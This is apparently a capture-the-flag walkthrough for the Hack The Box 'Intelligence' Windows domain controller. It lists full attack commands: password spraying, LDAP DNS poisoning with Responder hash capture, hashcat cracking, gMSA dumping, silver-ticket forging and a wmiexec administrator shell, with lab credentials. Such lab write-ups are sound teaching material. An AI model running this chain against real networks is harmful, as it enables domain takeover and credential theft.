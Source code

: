 # INTELLIGENCE

## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- **Key Exploits:**  
  - PDF metadata & URL fuzzing → default creds  
  - Password spraying  
  - LDAP DNS record injection → Responder NTLM capture  
  - gMSA password dump (ReadGMSAPassword)  
  - Kerberos S4U2Self/S4U2Proxy (silver ticket)  
  - WMI exec  

---

## TL;DR 🚀
1. **Recon:** nmap → DC + DNS + HTTP + LDAP + SMB  
2. **PDF Hunt:** brute‑force `/documents/YYYY‑MM‑DD-upload.pdf` → find default password **NewIntelligenceCorpUser9876** in PDF text  
3. **User Enumeration:** extract `/Creator` metadata → list ~30 usernames → validate with kerbrute  
4. **Password Spray:** `crackmapexec smb` → **Tiffany.Molina:NewIntelligenceCorpUser9876** → SMB as Tiffany → grab `user.txt`  
5. **Find Script:** SMB share `IT\downdetector.ps1` polls **web*** DNS records every 5 min, using default creds  
6. **Poison DNS:** use `dnstool.py` (LDAP) to add `web-0xdf`→your IP → wait for HTTP callback → capture NTLMv2 with Responder  
7. **Crack Hash:** NTLMv2 of `Ted.Graves` → **Mr.Teddy** → SMB as Ted  
8. **BloodHound:** Ted.Graves ∈ ITSupport → has **ReadGMSAPassword** on `svc_int$` & `svc_int` has **AllowedToDelegate**→DC  
9. **gMSADumper:** dump `svc_int$` NTLM hash via LDAP  
10. **Silver Ticket:** `getST.py` S4U2Self+Proxy for SPN `www/dc.intelligence.htb` impersonating Administrator → `administrator.ccache`  
11. **Shell:**  
    ```bash
    KRB5CCNAME=administrator.ccache \
      wmiexec.py -k -no-pass administrator@dc.intelligence.htb
    ```  
12. **Root.txt** acquired from `C:\Users\Administrator\Desktop\root.txt`

---

## Important Commands 🛠️

```bash
# 1. Enumerate PDFs, extract Creator & default password
#    (See Python script in writeup)

# 2. Validate users & spray default password
kerbrute userenum --dc 10.10.10.248 -d intelligence.htb users.txt
crackmapexec smb 10.10.10.248 \
  -u users.txt -p NewIntelligenceCorpUser9876 \
  --continue-on-success

# 3. SMB as Tiffany.Molina
smbclient -U Tiffany.Molina //10.10.10.248/Users

# 4. Fetch downdetector.ps1
smbclient -U Tiffany.Molina //10.10.10.248/IT
get downdetector.ps1

# 5. Poison DNS via LDAP
dnstool.py -u intelligence\\Tiffany.Molina \
  -p NewIntelligenceCorpUser9876 \
  --action add --record web-0xdf \
  --data 10.10.14.19 --type A intelligence.htb

# 6. Capture NTLMv2 with Responder
sudo responder -I tun0

# 7. Crack Ted.Graves’s hash
hashcat -m 5600 ted.graves.hash /usr/share/wordlists/rockyou.txt

# 8. Dump GMSA password as Ted.Graves
gMSADumper.py -u Ted.Graves -p Mr.Teddy \
  -l intelligence.htb -d intelligence.htb

# 9. Forge silver ticket (S4U2Self + Proxy)
getST.py -dc-ip 10.10.10.248 \
  -spn www/dc.intelligence.htb \
  -hashes :<svc_int$hash> \
  -impersonate administrator \
  intelligence.htb/svc_int

# 10. WMI exec as administrator
KRB5CCNAME=administrator.ccache \
  wmiexec.py -k -no-pass administrator@dc.intelligence.htb
```

---

## Key Takeaways 🔑
- **Hidden PDF end‑points** can leak default creds via Exif & text extraction.  
- **LDAP DNS injection** (AD‐Integrated records) + Responder → NTLMv2 capture.  
- **gMSA** (ReadGMSAPassword) + **Constrained Delegation** → silver ticket forging.  
- **Impacket tools** (`getST.py`, `wmiexec.py`) streamline Kerberos abuse.  

---

## References 📚
- **dnstool.py** (LDAP DNS editor)  
- **Responder** – LLMNR/mDNS/NetBIOS poisoner  
- **gMSADumper** – dump group‐managed service account creds  
- **Impacket** – getST.py & wmiexec.py for Kerberos & WMI  
- **BloodHound** – graph AD ACLs & delegation paths  